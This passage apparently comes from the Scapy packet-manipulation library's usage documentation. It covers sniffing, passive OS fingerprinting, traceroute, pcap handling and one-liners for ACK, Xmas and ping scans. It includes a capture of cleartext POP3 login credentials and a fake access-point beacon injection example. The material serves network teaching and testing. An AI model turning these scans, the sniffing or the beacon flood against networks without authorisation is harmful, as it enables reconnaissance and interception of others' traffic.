    eth3: Ether / IP / ICMP 192.168.5.21 > 66.35.250.151 echo-request 0 / Raw  
    eth3: Ether / IP / ICMP 66.35.250.151 > 192.168.5.21 echo-reply 0 / Raw    
    eth2: Ether / IP / ICMP 192.168.5.22 > 66.35.250.152 echo-request 0 / Raw  
    eth2: Ether / IP / ICMP 66.35.250.152 > 192.168.5.22 echo-reply 0 / Raw

For even more control over displayed information we can use the ``sprintf()`` function::

    >>> pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
    192.168.1.100 -> 64.233.167.99
    
    64.233.167.99 -> 192.168.1.100
    
    192.168.1.100 -> 64.233.167.99
    
    192.168.1.100 -> 64.233.167.99
    'GET / HTTP/1.1\r\nHost: 64.233.167.99\r\nUser-Agent: Mozilla/5.0 
    (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071022 Ubuntu/7.10 (gutsy)
    Firefox/2.0.0.8\r\nAccept: text/xml,application/xml,application/xhtml+xml,
    text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5\r\nAccept-Language:
    en-us,en;q=0.5\r\nAccept-Encoding: gzip,deflate\r\nAccept-Charset:
    ISO-8859-1,utf-8;q=0.7,*;q=0.7\r\nKeep-Alive: 300\r\nConnection:
    keep-alive\r\nCache-Control: max-age=0\r\n\r\n'

We can sniff and do passive OS fingerprinting::

    >>> p
    <Ether dst=00:10:4b:b3:7d:4e src=00:40:33:96:7b:60 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=60 id=61681 flags=DF frag=0L ttl=64 proto=TCP chksum=0xb85e
     src=192.168.8.10 dst=192.168.8.1 options='' |<TCP sport=46511 dport=80
     seq=2023566040L ack=0L dataofs=10L reserved=0L flags=SEC window=5840
     chksum=0x570c urgptr=0 options=[('Timestamp', (342940201L, 0L)), ('MSS', 1460),
     ('NOP', ()), ('SAckOK', ''), ('WScale', 0)] |>>>
    >>> load_module("p0f")
    >>> p0f(p)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    >>> a=sniff(prn=prnp0f)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (0.875, ['Linux 2.4.2 - 2.4.14 (1)', 'Linux 2.4.10 (1)', 'Windows 98 (?)'])
    (1.0, ['Windows 2000 (9)'])

The number before the OS guess is the accuracy of the guess.

Asynchronous Sniffing
---------------------

.. index::
   single: AsyncSniffer()

.. note::
   Asynchronous sniffing is only available since **Scapy 2.4.3**

.. warning::
   Asynchronous sniffing does not necessarily improves performance (it's rather the opposite). If you want to sniff on multiple interfaces / socket, remember you can pass them all to a single `sniff()` call

It is possible to sniff asynchronously. This allows to stop the sniffer programmatically, rather than with ctrl^C.
It provides ``start()``, ``stop()`` and ``join()`` utils.

The basic usage would be:

.. code-block:: python

    >>> t = AsyncSniffer()
    >>> t.start()
    >>> print("hey")
    hey
    [...]
    >>> results = t.stop()

.. image:: graphics/animations/animation-scapy-asyncsniffer.svg

The ``AsyncSniffer`` class has a few useful keys, such as ``results`` (the packets collected) or ``running``, that can be used.
It accepts the same arguments than ``sniff()`` (in fact, their implementations are merged). For instance:

.. code-block:: python

    >>> t = AsyncSniffer(iface="enp0s3", count=200)
    >>> t.start()
    >>> t.join()  # this will hold until 200 packets are collected
    >>> results = t.results
    >>> print(len(results))
    200

Another example: using ``prn`` and ``store=False``

.. code-block:: python

    >>> t = AsyncSniffer(prn=lambda x: x.summary(), store=False, filter="tcp")
    >>> t.start()
    >>> time.sleep(20)
    >>> t.stop()

Advanced Sniffing - Sniffing Sessions
-------------------------------------

.. note::
   Sessions are only available since **Scapy 2.4.3**

``sniff()`` also provides **Sessions**, that allows to dissect a flow of packets seamlessly. For instance, you may want your ``sniff(prn=...)`` function to automatically defragment IP packets, before executing the ``prn``.

Scapy includes some basic Sessions, but it is possible to implement your own.
Available by default:

- ``IPSession`` -> *defragment IP packets* on-the-flow, to make a stream usable by ``prn``.
- ``TCPSession`` -> *defragment certain TCP protocols**. Only **HTTP 1.0** currently uses this functionality.
- ``NetflowSession`` -> *resolve Netflow V9 packets* from their NetflowFlowset information objects

Those sessions can be used using the ``session=`` parameter of ``sniff()``. Examples::

    >>> sniff(session=IPSession, iface="eth0")
    >>> sniff(session=TCPSession, prn=lambda x: x.summary(), store=False)
    >>> sniff(offline="file.pcap", session=NetflowSession)

.. note::
   To implement your own Session class, in order to support another flow-based protocol, start by copying a sample from `scapy/sessions.py <https://github.com/secdev/scapy/blob/master/scapy/sessions.py>`_
   Your custom ``Session`` class only needs to extend the ``DefaultSession`` class, and implement a ``on_packet_received`` function, such as in the example.

Filters
-------

.. index::
   single: filter, sprintf()

Demo of both bpf filter and sprintf() method::

    >>> a=sniff(filter="tcp and ( port 25 or port 110 )",
     prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
    192.168.8.10:47226 -> 213.228.0.14:110   S : 
    213.228.0.14:110 -> 192.168.8.10:47226  SA : 
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK <13103.1048117923@pop2-1.free.fr>
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : USER toto
    
    213.228.0.14:110 -> 192.168.8.10:47226   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK 
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : PASS tata
    
    213.228.0.14:110 -> 192.168.8.10:47226  PA : -ERR authorization failed
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  FA : 
    192.168.8.10:47226 -> 213.228.0.14:110  FA : 
    213.228.0.14:110 -> 192.168.8.10:47226   A : 

Send and receive in a loop 
--------------------------

.. index::
   single: srloop()

Here is an example of a (h)ping-like functionality : you always send the same set of packets to see if something change::

    >>> srloop(IP(dst="www.target.com/30")/TCP())
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S

.. _import-export:

Importing and Exporting Data
----------------------------
PCAP
^^^^

It is often useful to save capture packets to pcap file for use at later time or with different applications::

    >>> wrpcap("temp.cap",pkts)

To restore previously saved pcap file:

    >>> pkts = rdpcap("temp.cap")

or

    >>> pkts = sniff(offline="temp.cap")

Hexdump
^^^^^^^

Scapy allows you to export recorded packets in various hex formats.

Use ``hexdump()`` to display one or more packets using classic hexdump format::

    >>> hexdump(pkt)
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67

Hexdump above can be reimported back into Scapy using ``import_hexcap()``::

    >>> pkt_hex = Ether(import_hexcap())
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67
    >>> pkt_hex
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Binary string
^^^^^^^^^^^^^

You can also convert entire packet into a binary string using the ``raw()`` function::

    >>> pkts = sniff(count = 1)
    >>> pkt = pkts[0]
    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>
    >>> pkt_raw = raw(pkt)
    >>> pkt_raw
    '\x00PV\xfc\xceP\x00\x0c)+S\x19\x08\x00E\x00\x00T\x00\x00@\x00@\x01Z|\xc0\xa8
    \x19\x82\x04\x02\x02\x01\x08\x00\x9c\x90Za\x00\x01\xe6\xdapI\xb6\xe5\x08\x00
    \x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b
    \x1c\x1d\x1e\x1f !"#$%&\'()*+,-./01234567'

We can reimport the produced binary string by selecting the appropriate first layer (e.g. ``Ether()``).

    >>> new_pkt = Ether(pkt_raw)
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Base64
^^^^^^

Using the ``export_object()`` function, Scapy can export a base64 encoded Python data structure representing a packet::

    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>
    >>> export_object(pkt)
    eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
    OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
    bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
    WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
    ...

The output above can be reimported back into Scapy using ``import_object()``::

    >>> new_pkt = import_object()
    eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
    OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
    bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
    WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
    ...
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>

Sessions
^^^^^^^^

At last Scapy is capable of saving all session variables using the ``save_session()`` function:

>>> dir()
['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_raw', 'pkts']
>>> save_session("session.scapy")

Next time you start Scapy you can load the previous saved session using the ``load_session()`` command::

    >>> dir()
    ['__builtins__', 'conf']
    >>> load_session("session.scapy")
    >>> dir()
    ['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_raw', 'pkts']


Making tables
-------------

.. index::
   single: tables, make_table()

Now we have a demonstration of the ``make_table()`` presentation function. It takes a list as parameter, and a function who returns a 3-uple. The first element is the value on the x axis from an element of the list, the second is about the y value and the third is the value that we want to see at coordinates (x,y). The result is a table. This function has 2 variants, ``make_lined_table()`` and ``make_tex_table()`` to copy/paste into your LaTeX pentest report. Those functions are available as methods of a result object :

Here we can see a multi-parallel traceroute (Scapy already has a multi TCP traceroute function. See later)::

    >>> ans, unans = sr(IP(dst="www.test.fr/30", ttl=(1,6))/TCP())
    Received 49 packets, got 24 answers, remaining 0 packets
    >>> ans.make_table( lambda (s,r): (s.dst, s.ttl, r.src) )
      216.15.189.192  216.15.189.193  216.15.189.194  216.15.189.195  
    1 192.168.8.1     192.168.8.1     192.168.8.1     192.168.8.1     
    2 81.57.239.254   81.57.239.254   81.57.239.254   81.57.239.254   
    3 213.228.4.254   213.228.4.254   213.228.4.254   213.228.4.254   
    4 213.228.3.3     213.228.3.3     213.228.3.3     213.228.3.3     
    5 193.251.254.1   193.251.251.69  193.251.254.1   193.251.251.69  
    6 193.251.241.174 193.251.241.178 193.251.241.174 193.251.241.178 

Here is a more complex example to distinguish machines or their IP stacks from their IPID field. We can see that 172.20.80.200:22 is answered by the same IP stack as 172.20.80.201 and that 172.20.80.197:25 is not answered by the same IP stack as other ports on the same IP.

::

    >>> ans, unans = sr(IP(dst="172.20.80.192/28")/TCP(dport=[20,21,22,25,53,80]))
    Received 142 packets, got 25 answers, remaining 71 packets
    >>> ans.make_table(lambda (s,r): (s.dst, s.dport, r.sprintf("%IP.id%")))
       172.20.80.196 172.20.80.197 172.20.80.198 172.20.80.200 172.20.80.201 
    20 0             4203          7021          -             11562             
    21 0             4204          7022          -             11563             
    22 0             4205          7023          11561         11564             
    25 0             0             7024          -             11565             
    53 0             4207          7025          -             11566             
    80 0             4028          7026          -             11567             

It can help identify network topologies very easily when playing with TTL, displaying received TTL, etc.

Routing
-------

.. index::
   single: Routing, conf.route

Now Scapy has its own routing table, so that you can have your packets routed differently than the system::

    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0
    >>> conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1")
    >>> conf.route.add(net="0.0.0.0/0",gw="192.168.8.254")
    >>> conf.route.add(host="192.168.1.1",gw="192.168.8.1")
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.254   eth0
    192.168.1.1     255.255.255.255 192.168.8.1     eth0
    >>> conf.route.resync()
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0

Matplotlib
----------

.. index::
   single: Matplotlib, plot()

We can easily plot some harvested values using Matplotlib. (Make sure that you have matplotlib installed.)
For example, we can observe the IP ID patterns to know how many distinct IP stacks are used behind a load balancer::

    >>> a, b = sr(IP(dst="www.target.com")/TCP(sport=[RandShort()]*1000))
    >>> a.plot(lambda x:x[1].id)
    [<matplotlib.lines.Line2D at 0x2367b80d6a0>]

.. image:: graphics/ipid.png


TCP traceroute (2)
------------------

.. index::
   single: traceroute(), Traceroute

Scapy also has a powerful TCP traceroute function. Unlike other traceroute programs that wait for each node to reply before going to the next, Scapy sends all the packets at the same time. This has the disadvantage that it can't know when to stop (thus the maxttl parameter) but the great advantage that it took less than 3 seconds to get this multi-target traceroute result::

    >>> traceroute(["www.yahoo.com","www.altavista.com","www.wisenut.com","www.copernic.com"],maxttl=20)
    Received 80 packets, got 80 answers, remaining 0 packets
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.243.5.254       82.243.5.254       82.243.5.254       82.243.5.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.46       212.27.50.46       212.27.50.46       212.27.50.46       
    5  212.27.50.37       212.27.50.41       212.27.50.37       212.27.50.41       
    6  212.27.50.34       212.27.50.34       213.228.3.234      193.251.251.69     
    7  213.248.71.141     217.118.239.149    208.184.231.214    193.251.241.178    
    8  213.248.65.81      217.118.224.44     64.125.31.129      193.251.242.98     
    9  213.248.70.14      213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.45.10.88    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 193.45.10.88    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 193.45.10.88    SA 206.24.226.99      64.125.28.209      66.218.64.146      
    13 193.45.10.88    SA 206.24.227.106     64.125.29.45       66.218.82.230      
    14 193.45.10.88    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 193.45.10.88    SA 216.109.120.149    64.124.229.109     66.94.229.254   SA 
    16 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    (<Traceroute: UDP:0 TCP:28 ICMP:52 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)

The last line is in fact the result of the function : a traceroute result object and a packet list of unanswered packets. The traceroute result is a more specialised version (a subclass, in fact) of a classic result object. We can save it to consult the traceroute result again a bit later, or to deeply inspect one of the answers, for example to check padding.

    >>> result, unans = _
    >>> result.show()
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    [...]
    >>> result.filter(lambda x: Padding in x[1])

Like any result object, traceroute objects can be added :

    >>> r2, unans = traceroute(["www.voila.com"],maxttl=20)
    Received 19 packets, got 19 answers, remaining 1 packets
       195.101.94.25:80   
    1  192.168.8.1        
    2  82.251.4.254     
    3  213.228.4.254      
    4  212.27.50.169      
    5  212.27.50.162      
    6  193.252.161.97     
    7  193.252.103.86     
    8  193.252.103.77     
    9  193.252.101.1      
    10 193.252.227.245    
    12 195.101.94.25   SA 
    13 195.101.94.25   SA 
    14 195.101.94.25   SA 
    15 195.101.94.25   SA 
    16 195.101.94.25   SA 
    17 195.101.94.25   SA 
    18 195.101.94.25   SA 
    19 195.101.94.25   SA 
    20 195.101.94.25   SA 
    >>>
    >>> r3=result+r2
    >>> r3.show()
       195.101.94.25:80   212.23.37.13:80    216.109.118.72:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.169      212.27.50.169      212.27.50.46       -                  212.27.50.46       
    5  212.27.50.162      212.27.50.162      212.27.50.37       212.27.50.41       212.27.50.37       
    6  193.252.161.97     194.68.129.168     212.27.50.34       213.228.3.234      193.251.251.69     
    7  193.252.103.86     212.23.42.33       217.118.239.185    208.184.231.214    193.251.241.178    
    8  193.252.103.77     212.23.42.6        217.118.224.44     64.125.31.129      193.251.242.98     
    9  193.252.101.1      212.23.37.13    SA 213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.252.227.245    212.23.37.13    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 -                  212.23.37.13    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 195.101.94.25   SA 212.23.37.13    SA 206.24.226.100     64.125.28.209      216.115.101.46     
    13 195.101.94.25   SA 212.23.37.13    SA 206.24.238.166     64.125.29.45       66.218.82.234      
    14 195.101.94.25   SA 212.23.37.13    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 195.101.94.25   SA 212.23.37.13    SA 216.109.120.151    64.124.229.109     66.94.229.254   SA 
    16 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 

Traceroute result object also have a very neat feature: they can make a directed graph from all the routes they got, and cluster them by AS (Autonomous System). You will need graphviz. By default, ImageMagick is used to display the graph.

    >>> res, unans = traceroute(["www.microsoft.com","www.cisco.com","www.yahoo.com","www.wanadoo.fr","www.pacsec.com"],dport=[80,443],maxttl=20,retry=-2)
    Received 190 packets, got 190 answers, remaining 10 packets
       193.252.122.103:443 193.252.122.103:80 198.133.219.25:443 198.133.219.25:80  207.46...
    1  192.168.8.1         192.168.8.1        192.168.8.1        192.168.8.1        192.16...
    2  82.251.4.254        82.251.4.254       82.251.4.254       82.251.4.254       82.251...
    3  213.228.4.254       213.228.4.254      213.228.4.254      213.228.4.254      213.22...
    [...]
    >>> res.graph()                          # piped to ImageMagick's display program. Image below.
    >>> res.graph(type="ps",target="| lp")   # piped to postscript printer
    >>> res.graph(target="> /tmp/graph.svg") # saved to file 

.. image:: graphics/graph_traceroute.png

If you have VPython installed, you also can have a 3D representation of the traceroute. With the right button, you can rotate the scene, with the middle button, you can zoom, with the left button, you can move the scene. If you click on a ball, it's IP will appear/disappear. If you Ctrl-click on a ball, ports 21, 22, 23, 25, 80 and 443 will be scanned and the result displayed::

    >>> res.trace3D()

.. image:: graphics/trace3d_1.png

.. image:: graphics/trace3d_2.png

Wireless frame injection
------------------------

.. index::
   single: FakeAP, Dot11, wireless, WLAN

.. note::
   See the TroubleShooting section for more information on the usage of Monitor mode among Scapy.

Provided that your wireless card and driver are correctly configured for frame injection

::

    $ iw dev wlan0 interface add mon0 type monitor
    $ ifconfig mon0 up

On Windows, if using Npcap, the equivalent would be to call::

    >>> # Of course, conf.iface can be replaced by any interfaces accessed through IFACES
    ... conf.iface.setmonitor(True)

you can have a kind of FakeAP::

    >>> sendp(RadioTap()/
              Dot11(addr1="ff:ff:ff:ff:ff:ff",
                    addr2="00:01:02:03:04:05",
                    addr3="00:01:02:03:04:05")/
              Dot11Beacon(cap="ESS", timestamp=1)/
              Dot11Elt(ID="SSID", info=RandString(RandNum(1,50)))/
              Dot11EltRates(rates=[130, 132, 11, 22])/
              Dot11Elt(ID="DSset", info="\x03")/
              Dot11Elt(ID="TIM", info="\x00\x01\x00\x00"),
              iface="mon0", loop=1)

Depending on the driver, the commands needed to get a working frame injection interface may vary. You may also have to replace the first pseudo-layer (in the example ``RadioTap()``) by ``PrismHeader()``, or by a proprietary pseudo-layer, or even to remove it.


Simple one-liners
=================


ACK Scan
--------

Using Scapy's powerful packet crafting facilities we can quick replicate classic TCP Scans.
For example, the following string will be sent to simulate an ACK Scan::

    >>> ans, unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A"))

We can find unfiltered ports in answered packets::

    >>> for s,r in ans:
    ...     if s[TCP].dport == r[TCP].sport:
    ...        print("%d is unfiltered" % s[TCP].dport)

Similarly, filtered ports can be found with unanswered packets::

    >>> for s in unans:     
    ...     print("%d is filtered" % s[TCP].dport)


Xmas Scan
---------

Xmas Scan can be launched using the following command::

    >>> ans, unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU") )

Checking RST responses will reveal closed ports on the target. 

IP Scan
-------

A lower level IP Scan can be used to enumerate supported protocols::

    >>> ans, unans = sr(IP(dst="192.168.1.1",proto=(0,255))/"SCAPY",retry=2)


ARP Ping
--------

The fastest way to discover hosts on a local ethernet network is to use the ARP Ping method::

    >>> ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)

Answers can be reviewed with the following command::

    >>> ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )

Scapy also includes a built-in arping() function which performs similar to the above two commands:

    >>> arping("192.168.1.*")


ICMP Ping
---------

Classical ICMP Ping can be emulated using the following command::

    >>> ans, unans = sr(IP(dst="192.168.1.1-254")/ICMP())

Information on live hosts can be collected with the following request::

    >>> ans.summary(lambda (s,r): r.sprintf("%IP.src% is alive") )


TCP Ping
--------

In cases where ICMP echo requests are blocked, we can still use various TCP Pings such as TCP SYN Ping below::

    >>> ans, unans = sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )

Any response to our probes will indicate a live host. We can collect results with the following command::

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )


UDP Ping
--------

If all else fails there is always UDP Ping which will produce ICMP Port unreachable errors from live hosts. Here you can pick any port which is most likely to be closed, such as port 0::

    >>> ans, unans = sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )

Once again, results can be collected with this command:

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )


DNS Requests
------------

**IPv4 (A) request:**

This will perform a DNS request looking for IPv4 addresses

    >>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="A")))
    >>> ans.an.rdata
    '217.25.178.5'

**SOA request:**

    >>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="SOA")))
    >>> ans.ns.mname
    b'dns.ovh.net.'
    >>> ans.ns.rname
    b'tech.ovh.net.'

**MX request:**

    >>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="google.com",qtype="MX")))
    >>> results = [x.exchange for x in ans.an.iterpayloads()]
    >>> results
    [b'alt1.aspmx.l.google.com.',
     b'alt4.aspmx.l.google.com.',
     b'aspmx.l.google.com.',
